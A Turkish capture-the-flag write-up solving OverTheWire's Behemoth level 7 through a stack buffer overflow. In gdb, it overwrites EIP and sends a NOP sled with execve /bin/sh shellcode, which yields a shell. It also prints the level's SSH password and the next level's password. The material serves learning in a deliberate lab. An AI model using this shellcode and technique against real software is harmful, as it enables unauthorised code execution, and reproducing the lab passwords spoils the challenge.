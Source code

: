 # Behemoth: Level 7 Writeup

    ssh behemoth7@behemoth.labs.overthewire.org -p 2221
    password: baquoxuafo


![0](img/7/0.png)

Debugger üzerinde incelemeye başladığımızda stack içerisinden `0x20c` kadar bir alan ayrıldığını görüyoruz.

```python
>>> 0x20c
524
```

Bunun kaç karaktere tekamül ettiğini öğrendikten sonra `EIP` üzerine acaba birşeyler yazabilir miyiz diye test edelim.

```bash
(gdb) r $(python -c 'print "A"*524 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*524 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"')

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb)
```

Evet tahminlerimiz doğru çıktı ve `EIP` registerını kontrol etmeyi başardık. Bundan sonrası klasik stack tabanlı buffer overflow zafiyetini exploit etme yöntemi olacak.

Stack içerisine shellcode yükleyip bu shellcode'un önünede biraz `NOP` ekleyerek `EIP` üzerine bu `NOP` adreslerinin bulunduğu kısımlardan bir adres yazacağız ve shellcode'u çalıştıracağız

```bash
(gdb) r $(python -c 'print "A"*528 + "BBBB" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*528 + "BBBB" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/64x $esp
0xffffd320:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd330:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd340:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd350:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd360:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd370:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd380:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0xffffd390:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0xffffd3a0:	0x08048600	0xf7fe9070	0xffffd3ac	0xf7ffd920
0xffffd3b0:	0x00000002	0xffffd50d	0xffffd521	0x00000000
0xffffd3c0:	0xffffd7b6	0xffffd7c9	0xffffdd85	0xffffdda0
0xffffd3d0:	0xffffddd6	0xffffddeb	0xffffde03	0xffffde12
0xffffd3e0:	0xffffde23	0xffffde3a	0xffffde4e	0xffffde5d
0xffffd3f0:	0xffffde6b	0xffffde74	0xffffde89	0xffffdeac
0xffffd400:	0xffffdec3	0xffffdeda	0xffffdeed	0xffffdef9
0xffffd410:	0xffffdf12	0xffffdf22	0xffffdf36	0xffffdf41
(gdb)
```

```bash
(gdb) r $(python -c 'print "A"*528 + "\x40\xd3\xff\xff" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*528 + "\x40\xd3\xff\xff" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
process 24707 is executing new program: /bin/dash
$ id
uid=13007(behemoth7) gid=13007(behemoth7) groups=13007(behemoth7)
$
```

![1](img/7/1.png)

`behemoth8:pheewij7Ae`

Böylelikle `behemoth` makinesindeki sorularıda halletmiş olduk :)
